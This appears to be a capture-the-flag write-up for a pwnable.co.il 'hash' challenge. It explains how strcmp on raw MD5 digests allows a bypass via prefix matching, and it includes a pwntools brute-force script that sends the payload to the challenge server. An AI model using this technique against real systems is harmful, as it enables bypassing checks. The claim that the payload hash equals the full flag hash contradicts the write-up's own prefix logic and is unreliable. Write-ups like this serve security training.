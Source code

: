 +++
title = "hash challenge writeup"
date = "2024-02-10"
description = "A writeup to the hash challenge from pwnable.co.il"
tags = [
    "pwn", 
    "pwnable.co.il"
]
series = ["pwnable.co.il"]
+++


Looking at the source code of the challenge, we see that the program loads the flag and hashes it.

```c
int fd = open("flag", O_RDONLY);
int bytes = read(fd, &flag_str, 0x100);
...
MD5_Update(&flag, flag_str, bytes);
MD5_Final(flag_hash, &flag);

```

The program then prints the flag hash for us in hexadecimal format.

```c
puts("Flag MD5: ");
for(int i = 0; i < MD5_DIGEST_LENGTH; i++) printf("%02x", flag_hash[i]);
puts("");
```

After that, the user gets to input their guess for the flag, which gets hashed too.

```c
bytes = read(0, guess, bytes);
MD5_CTX guess_ctx;
MD5_Init(&guess_ctx);
MD5_Update(&guess_ctx, guess, bytes);
MD5_Final(guess_hash, &guess_ctx);
```
 
 
And then, the two hashes get compared using the function `strcmp` . If `strcmp` returns equal, the program prints the flag; otherwise, it prints "Wrong!!" and exits.

```c
if (!strcmp(flag_hash, guess_hash)) {
    puts("Congrats!!!");
    puts(flag_str);
} else {
    puts("Wrong!!");
}
return 1;
```

We can immediately see a logical error in the code, the `strcmp` function was used even though the hashes are not strings. The `strcmp` function compares until there's a NULL byte, `00` . This means that if there's a `00` byte in the hash of the flag, the function will return earlier than it should, and it will only check if they're both equal up to that point.

Now going back to the printed hash `537500469ddfc5b29e9379cdcc2f3c86`, we can see the third byte is `00` . It means that the hashes will only be compared up to the third byte and that the hashes only need to be equal in the first three bytes for the function to return equal.

Using this newly acquired information on the program, I've created a Python script that brute-forces a 'collision' and creates a hash with the prefix `537500` , equal to the flag hash.

```python
from pwn import * 
import hashlib

def find_md5_with_prefix(prefix):
    i = 0
    while True:
        data = str(i) + '\n'
        
        md5_hash = hashlib.md5(data.encode()).hexdigest()
        
        if md5_hash[:len(prefix)] == prefix:
            return data, md5_hash
        
        i += 1
        
        
if args['LOCAL']:
    io = process('./hash')
else:
    io = remote('pwnable.co.il', 9006)
    
prefix = '537500'
payload, _ = find_md5_with_prefix(prefix)

io.send(payload)
io.interactive()
```

The hash of the payload created by my script was `537500469ddfc5b29e9379cdcc2f3c86` , and as I expected, it passed the equality check and printed out the flag.

